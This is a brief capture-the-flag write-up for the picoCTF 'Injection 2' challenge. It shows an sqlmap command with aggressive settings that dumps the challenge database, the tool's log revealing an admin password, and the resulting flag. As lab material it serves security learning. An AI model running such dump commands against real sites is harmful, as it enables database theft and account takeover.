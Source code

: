 #Injection 2 - 110

For this problem, I fired up sqlmap (https://github.com/sqlmapproject) an automated SQL injection and database takeover tool. Using the followin command to find a vulnerability and enumerate the databse:
```
./sqlmap.py -u http://web2014.picoctf.com/injection2/ --forms --level=5 --risk=3 --batch --dump
```

Gave me the following infromation:

```
[14:05:01] [INFO] adjusting time delay to 1 second due to good response times
sql2
[14:05:14] [INFO] fetching tables for database: 'sql2'
[14:05:14] [INFO] fetching number of tables for database 'sql2'
[14:05:14] [INFO] retrieved: 1
[14:05:16] [INFO] retrieved: users
[14:05:37] [INFO] fetching columns for table 'users' in database 'sql2'
[14:05:37] [INFO] retrieved: 5
[14:05:40] [INFO] retrieved: id
[14:05:48] [INFO] retrieved: us
[14:06:45] [INFO] retrieved: password
[14:07:57] [INFO] retrieved: display_name
[14:09:36] [INFO] retrieved: user_level
[14:11:18] [INFO] fetching entries for table 'users' in database 'sql2'
[14:11:18] [INFO] fetching number of entries for table 'users' in database 'sql2'
[14:11:18] [INFO] retrieved: 1
[14:11:21] [INFO] retrieved: Admin
[14:12:14] [INFO] retrieved: 1
[14:12:21] [INFO] retrieved: super_secret_admin_pass
```

Logging in with the password revealed:

```
Logged in!

User level: 1337
Your flag is: flag_nJZAKGWYt7YfzmTsCV
```